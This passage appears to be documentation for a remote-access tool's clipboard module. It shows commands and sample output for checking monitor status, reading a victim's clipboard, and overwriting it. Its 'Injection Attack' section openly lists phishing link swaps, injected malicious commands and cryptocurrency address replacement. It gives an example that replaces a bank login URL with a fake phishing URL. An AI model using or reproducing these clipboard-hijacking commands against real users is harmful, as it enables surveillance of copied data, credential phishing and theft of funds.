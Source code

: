 ##### Check Status

```
clipboard_status
```

Shows:

```json
{
  "running": true,
  "log_file": "logs/clipboard/clipboard_20251004_150230.txt",
  "check_interval": 1,
  "pyperclip_available": true,
  "last_content_length": 256,
  "log_size_bytes": 2048
}
```

##### Get Current Clipboard

```
clipboard_get
```

**Response:**

```
[+] Latest clipboard content (42 chars):
This is some sensitive text from clipboard
```

This retrieves the current clipboard content without starting the monitor. Useful for:

- Quick clipboard checks
- Verifying what's currently copied
- Testing clipboard access

##### Set Clipboard (Injection Attack)

```
clipboard_set https://fake-login-page.com
```

**Response:**

```
[+] Clipboard set to: https://fake-login-page.com
```

**Attack Scenarios:**

- Replace legitimate URLs with phishing links
- Inject malicious commands the user might paste
- Replace cryptocurrency addresses
- Social engineering attacks

**Example:**

```
# User copies: https://bank.com/login
# You inject:
clipboard_set https://fake-bank.com/phishing

# When user pastes, they paste YOUR URL instead
```
